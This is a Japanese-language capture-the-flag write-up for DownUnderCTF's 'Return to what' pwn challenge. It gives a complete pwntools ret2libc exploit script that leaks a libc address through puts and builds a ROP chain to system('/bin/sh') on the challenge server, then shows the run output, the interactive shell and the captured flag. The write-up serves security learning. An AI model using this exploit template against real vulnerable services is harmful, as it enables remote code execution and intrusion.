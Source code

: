 # Return to what:pwn:200pts
This will show my friends!  
nc chal.duc.tf 30003  
Attached files:  
- return-to-what (sha256: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)  

[return-to-what](return-to-what)  

# Solution
return-to-whatなので、おそらくlibcへ飛ばしてやれば良い。  
pwntoolsがすべてやってくれる。  
ret2libcのテンプレを使う。  
```python:hack.py
from pwn import *

elf = ELF('./return-to-what')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = remote('chal.duc.tf', 30003)
#io = process(elf.path)
rop = ROP(elf)

puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(puts_plt))
log.info("__libc_start_main: " + hex(libc_start_main))
log.info("pop rdi gadget: " + hex(pop_rdi))

base = b'A' * 56
print(io.recvline())
print(io.recvline())
payload = base + p64(pop_rdi) + p64(libc_start_main) + p64(puts_plt) + p64(main)
io.sendline(payload)
recieved = io.recvline().strip()
print(recieved)
print(io.recvline())

leak = u64(recieved.ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']

log.info("/bin/sh %s " % hex(binsh))
log.info("system %s " % hex(system))

payload = base + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ ls
hack.py  return-to-what
$ python hack.py
[*] '/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.duc.tf on port 30003: Done
[*] Loaded 14 cached gadgets for './return-to-what'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403ff0
[*] pop rdi gadget: 0x40122b
b"Today, we'll have a lesson in returns.\n"
b'Where would you like to return to?\n'
b'\xb0J\xf8LM\x7f'
b"Today, we'll have a lesson in returns.\n"
[*] Leaked libc address,  __libc_start_main: 0x7f4d4cf84ab0
[*] Address of libc 0x7f4d4cf63000
[*] /bin/sh 0x7f4d4d116e9a
[*] system 0x7f4d4cfb2440
[*] Switching to interactive mode
Where would you like to return to?
$ ls
flag.txt
return-to-what
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```
flag.txt内にflagが書かれていた。  

## DUCTF{ret_pUts_ret_main_ret_where???}